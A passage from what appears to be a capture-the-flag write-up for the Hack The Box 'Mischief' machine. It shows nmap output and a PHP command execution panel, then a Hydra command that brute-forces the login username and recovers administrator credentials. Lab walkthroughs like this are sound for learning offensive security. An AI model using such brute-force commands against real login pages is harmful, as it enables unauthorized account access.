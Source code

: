 ```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.58 seconds
```

### Command execution panel

The web server is running a PHP application:

![Command Execution Panel](/assets/images/htb-writeup-mischief/cep1.png)

![Command Execution Panel Login](/assets/images/htb-writeup-mischief/cep2.png)

It's probably using the 2nd password we found but we don't know the username (loki doesn't work here.)

We'll use Hydra to bruteforce the username:

```
root@violentunicorn:~/hackthebox/Machines/Mischief# hydra -I -L /root/SecLists/Usernames/top_shortlist.txt -p trickeryanddeceit mischief http-post-form "/login.php:user=^USER^&password=^PASS^:credentials do not match"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-08 19:37:12
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:11/p:1), ~1 try per task
[DATA] attacking http-post-form://mischief:80//login.php:user=^USER^&password=^PASS^:credentials do not match
[80][http-post-form] host: mischief   login: administrator   password: trickeryanddeceit
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-08 19:37:13
```
